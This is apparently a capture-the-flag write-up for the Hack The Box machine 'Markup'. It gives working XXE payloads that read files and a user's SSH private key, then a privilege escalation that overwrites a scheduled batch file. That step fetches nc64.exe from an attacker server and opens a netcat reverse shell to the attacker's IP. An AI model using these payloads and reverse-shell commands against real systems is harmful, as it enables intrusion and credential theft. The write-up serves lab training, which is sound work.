

# Markup
## User Flag
When starting a box, it's always a good idea to run nmap to enumerate services on the target. Running `nmap -sV -sC 10.129.81.36`
shows us the service versions and might point us toward known vulnerabilities.


Port 22 is running ssh, port 80 is running http and port 443 is running https. We see that the httponly flag is not set for neither port 80 nor 443, so there is a chance we can steal cookies later on. 

Let’s open BurpSuite and set `http://10.129.81.36/` as the target.  We are taken to this login page: 


Let’s set up the BurpSuite intercept and try `admin` as the username and `password` as the password.

The website shows us: 


If we go to the “Order” page, then we find out we can put in some user input.



Burpsuite shows us the below when we put in user input. 


It seems likely that we can run an XXE attack. This [hacktricks page](https://book.hacktricks.wiki/en/pentesting-web/xxe-xee-xml-external-entity.html) shows us how to do XXE on a page that already has xml. 

In particular we're going to look at this example they provided to check whether XXE is possible: 

```
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY example SYSTEM "/etc/passwd"> ]>
<data>&example;</data>
```

From our nmap scan, we know that the target is running Windows so we will have to change the filepath. Modifying the script for our purposes gives us the following: 

```
<?xml version = "1.0"?>
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///c:/windows/win.ini'>]> 
<order><quantity>3</quantity><item>&test;</item><address>blahblah</address></order>
```

Now, we can submit an order, intercept the request via Burpsuite, replace the XML portino with this code and receive the output: 


This means that XXE is working properly. Let's modify the script so that we can get something more useful. 

Looking at the source code for the page, we find that it was last modified by "Daniel", a possible user for the system:


Perhaps we can try the same XXE attack above, instead checking the `C:Windows\Users\Daniel` folder. Since the box has an ssh service running, it would be great if we could somehow find Daniel's private key. This is normally located in the user's home directory under `.ssh\id_rsa`. We can use the following script to see if it exists: 

```
<?xml version = "1.0"?>
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///c:/users/daniel/.ssh/id_rsa'>]> 
<order><quantity>3</quantity><item>&test;</item><address>blahblah</address></order>
```
Intercepting the traffic on Burpsuite, we see that the key does exist


We can copy and paste this key into a file named `id_rsa_daniel.key`. To `ssh` using this key, we can run `ssh -i id_rsa_daniel.key daniel@10.129.81.36` assuming we are in the folder that contains `id_rsa_daniel.key`. 

This gets us into Daniel's directory: 


After some brief investigation, we find the user flag in  in `C:\Windows\Users\Daniel\Desktop\user.txt`. 

## Root Flag
There doesn't seem to be much to go off of to escalate privileges. Daniel's user account doesn't have special permissions, so instead, let's look for some interesting files on the machine. Starting with `C:\` we immediately see `C:\Log-Management`, which isn't a default folder. In particular, we find `C:\Log-Management\job.bat`. 


It looks like this script is run as `Administrator`, so if we can utilize its permissions, we may be able to open an Administrative shell. Notice that the script seems to run the `wevtutil.exe` executable. A quick Google search shows that this executable is used to manage and interact with the Windows Log system. Running a quick `ps` shows us that the wevtutil.exe executable is running, which implies that the `job.bat` script is also running constantly for log cleanup. 

If we can modify `job.bat`, we can open a revese shell. For this, we need to get the `nc64.exe` executable on the windows machine. We will follow these steps:
1. Download `nc64.exe` from github using `wget https://github.com/int0x33/nc.exe/blob/master/nc64.exe?raw=true`. You will need to rename the file to just nc64.exe. Put it on your local kali box. 
2. Navigate to the folder storing the exe file on Kali linux
3. Set up a server using the following command: `sudo  python -m http.server 1337`. Now this will be reachable by the target machine (see step 4)
4. On target machine run the following: `powershell -c wget http://10.10.14.153:1337/nc64.exe -outfile nc64.exe` to get the executable on the target system.
5. Start the netcat listener on kali linux using `nc -lnvp 4444`

Now we need to modify the jobs.bat file to run “.\nc64.exe -e cmd.exe 10.10.14.153 4444” to open the reverse shell. We can do this by running: 

`echo C:\Log-Management\nc64.exe -e cmd.exe 10.10.14.153 4444 > C:\Log-Management\job.bat`

You’ll note that after running this, a reverse shell automatically opens because the job.bat file is already running. Now we can traverse to `C:\Users\Administrators\Desktop\root.txt` to find the root flag. 

